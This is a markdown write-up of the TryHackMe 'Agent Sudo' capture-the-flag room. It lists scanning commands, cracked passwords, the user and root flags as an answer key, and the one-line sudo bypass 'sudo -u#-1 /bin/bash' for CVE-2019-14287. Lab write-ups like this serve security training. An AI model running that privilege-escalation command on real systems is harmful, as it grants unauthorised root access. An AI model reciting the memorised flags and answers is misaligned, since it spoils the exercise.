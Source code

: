 ```yaml
---
layout: post
title: Agent Sudo
date:  2025-06-14 23:00:00 +0530 
categories: [Tryhackme]
tags: [hacking, tryhackme, writeup,ctf, Agent_Sudo,sudo, apt, ssh, ftp] # TAG names should always be lowercase 
render_with_liquid: false
media_subpath: /images/Agent_Sudo/

---
```


# 🕵️‍♂️ Agent Sudo - 14 June 2k25

![TryHackMe Logo](THM.png)

![Agent Sudo](Agent_Sudo .png){: width="600" height="50" .shadow }

---

## 🚩 Table of Contents

1. [🕵️ Reconnaissance - Task 1](#reconnaissance--enumerate---task-1)
2. [📂 Hash Cracking & Brute-Force - Task 2](#hash-cracking--brute-force-task---2)
3. [🏁 Capture the User Flag - Task 3](#capture-the-user-flag-task---3)
4. [⬆️ Privilege Escalation - Task 4](#privilege-escalation-task---4)
5. [🎉 Happy Hacking](#happy-hacking)

---

# 🕵️ Reconnaissance/ Enumerate  - Task 1

> **Username:** `chris`  
> **Login:** `chris`  
> **Password:** `crystal`

---

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt 10.10.5.56
```

![Nmap Scan Screenshot](nmap_scan.png)

---

## 📂 Directory Scan (Dirbuster)

**Command:**
```bash
dirbuster -u http://10.10.199.108/content/ -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

![Directory Scan Screenshot](directory_scan.png)

---

## ❓ Questions and Answers

| #  | Question                                   | Answer                  |
|----|--------------------------------------------|-------------------------|
| 1  | How many open ports?                       | `3`                     |
| 2  | How do you redirect yourself to a secret page? | `user-agent`        |
| 3  | What is the agent name?                    | `chris`                 |

---

## 🔑 Hash Cracking & Brute-Force Task - 2

| #  | Question                        | Answer           |
|----|---------------------------------|------------------|
| 4  | FTP password                    | `crystal`        |
| 5  | Zip file password               | `alien`          |
| 6  | Steg password                   | `Area51`         |
| 7  | Who is the other agent (full name)? | `james`      |
| 8  | SSH password                    | `hackerrules!`   |

---

## 🏁 Capture the User Flag Task - 3

![SSH FLAG](ssh_flag.png)

| #  | Question                         | Answer                              |
|----|----------------------------------|-------------------------------------|
| 9  | What is the user flag?           | `b03d975e8c92a7c04146cfa7a5a313c7`  |
| 10 | What is the incident of the photo called? |                                 |

---

## ⬆️ Privilege Escalation Task - 4

```bash
sudo -u#-1 /bin/bash
```

![SSH FLAGS](ssh_and_flags.png)

| #   | Question                                      | Answer                  |
|-----|-----------------------------------------------|-------------------------|
| 11  | CVE number for the escalation (Format: CVE-xxxx-xxxx) | `CVE-2019-14287` |
| 12  | What is the root flag?                        | `b53a02f55b57d4439e3341834d70c062` |
| 13  | (Bonus) Who is Agent R?                       | `DesKel`                |

---


## 🎉 Happy Hacking!

> *“The quieter you become, the more you are able to hear.”*  
> — **Agent Sudo**

<div align="center">
    <a href="https://giphy.com/gifs/charlie-hunnam-gif-hunt-102h4wsmCG2s12">
        <img src="https://media.giphy.com/media/102h4wsmCG2s12/giphy.gif" alt="Charlie Hunnam GIF" width="400"/>
    </a>
</div>

---
